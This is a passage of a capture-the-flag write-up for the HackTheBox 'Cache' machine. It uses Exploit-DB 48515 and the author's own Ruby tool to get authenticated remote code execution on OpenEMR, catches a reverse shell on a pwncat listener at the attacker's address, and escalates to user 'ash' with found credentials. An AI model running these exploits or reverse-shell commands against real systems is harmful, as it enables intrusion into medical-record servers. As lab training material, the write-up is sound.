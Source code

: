 Now we will be able to use the authenticated RCE we found earlier.

**Warning**: Using EDB-48515 that has a neutral impact rather than EDB-45161 that
will reset the config to default for everyone!!!

```
$ searchsploit -m 48515
  Exploit: OpenEMR 5.0.1 - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/48515
     Path: /usr/share/exploitdb/exploits/php/webapps/48515.py
File Type: ASCII text, with CRLF line terminators

Copied to: /home/cyfun/CTF/HackTheBox/machines/Cache/48515.py
```

Let's modify, the remote URL, the LHOST, LPORT, and admin creds.

Then start a listener & start the exploit:

```
$ pwncat -l 8888 -vv
INFO: Listening on :::8888 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:8888 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.10.188:32838 (family 2/IPv4, TCP)
Linux cache 4.15.0-109-generic #110-Ubuntu SMP Tue Jun 23 02:39:32 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 23:11:40 up 32 min,  0 users,  load average: 0.07, 0.02, 0.03
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$

$ python2 48515.py
[+] Authentication with credentials provided please be patient
[+] Uploading a payload it will take a minute
[+] You should be getting a shell
```

Afterward I created my own exploit for OpenEMR RCE: https://github.com/cyfun/OpenEMR-RCE

```
$ ruby OpenEMR-RCE/exploit.rb auto -r http://hms.htb -u openemr_admin -p xxxxxx -h 10.10.15.201 -t 8888
$ ruby OpenEMR-RCE/exploit.rb semi-auto -r http://hms.htb -u openemr_admin -p xxxxxx -h 10.10.15.201 -t 8888 -m 'php/reverse_php'
$ ruby OpenEMR-RCE/exploit.rb manual -r http://hms.htb -u openemr_admin -p xxxxxx -s tmp548.php
```

### Privilege Escalation of Machine : www-data to ash

We can use the credentials (`ash` / `H@v3_fun`) we found at the beginning.

```
$ which python3
/usr/bin/python3
$ python3 -c 'import pty;pty.spawn("/bin/bash")'
www-data@cache:/$ su ash
su ash
Password: H@v3_fun

ash@cache:/$ cd
cd
ash@cache:~$ cat user.txt
cat user.txt
aebbdcd5e2a33812b7db84f42f124ea5
```

